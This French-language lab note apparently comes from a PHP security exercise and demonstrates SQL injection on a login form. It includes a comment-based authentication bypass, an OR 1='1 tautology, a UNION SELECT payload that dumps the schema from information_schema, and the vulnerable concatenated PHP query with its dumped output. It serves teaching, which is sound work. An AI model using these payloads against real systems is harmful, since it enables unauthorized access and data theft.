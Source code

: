 # ByPass d'authentification
## Requête utilisant le nom d'utilisateur:

* SELECT * FROM accounts AS A JOIN users AS B ON A.id_users = B.id WHERE B.login = 'Jean'#' AND B.pass = '123t'

*On se log avec le nom d'utilisateur puis '# ou ';*
> Jean'#

Une fois le nom inscrit on commente le reste de la requête (qui vérifie le mot de passe) et la requête s'arrête a la vérification du login

> $legalQuery = "SELECT * FROM accounts AS A JOIN users AS B ON A.id_users = B.id WHERE B.login = '" . $_POST["login"] . "' AND B.pass = '" . $_POST["password"] . "'";

* SELECT * FROM accounts AS A JOIN users AS B ON A.id_users = B.id WHERE B.login = 'Jean' # AND B.pass = '123t'

le code *# AND B.pass = '123t'* est commenté

=> le mot de passe n'est pas contrôlé, les données s'affichent.

## En remplaçant la valeur du test du mdp 

pass = user pass doit retourner TRUE
En proposant un test qui donne TRUE à la place de pass= user pass, on change la requête :

*On se log avec le mot de passe 

> "toto' OR 1='1"

=> La table de vérité donne TRUE, les données s'affichent

# Evasion de la base cible

On passe dans le formulaire

    login => non null 
    
    password => motDePasseInconnu ' AND 1=0 UNION SELECT database(), t.table_name, concat(c.column_name,':',c.data_type) FROM information_schema.tables AS t NATURAL JOIN information_schema.columns AS c WHERE table_schema = database() #

On obtient une liste des tables de notre base qu'on va pouvoir utiliser plus tard

>
  0 => 

    array (size=3)

      'login' => string 'security_php' (length=12)

      'type' => string 'accounts' (length=8)

      'amount' => string 'amount:float' (length=12)

  1 => 

    array (size=3)

      'login' => string 'security_php' (length=12)

      'type' => string 'accounts' (length=8)

      'amount' => string 'id:int' (length=6)

  2 => 

    array (size=3)

      'login' => string 'security_php' (length=12)

      'type' => string 'accounts' (length=8)

      'amount' => string 'id_users:int' (length=12)

  3 => 

    array (size=3)

      'login' => string 'security_php' (length=12)

      'type' => string 'accounts' (length=8)

      'amount' => string 'type:varchar' (length=12)

  4 => 

    array (size=3)

      'login' => string 'security_php' (length=12)

      'type' => string 'users' (length=5)

      'amount' => string 'id:int' (length=6)

  5 => 

    array (size=3)

      'login' => string 'security_php' (length=12)

      'type' => string 'users' (length=5)

      'amount' => string 'login:varchar' (length=13)

  6 => 

    array (size=3)

      'login' => string 'security_php' (length=12)

      'type' => string 'users' (length=5)

      'amount' => string 'pass:varchar' (length=12)


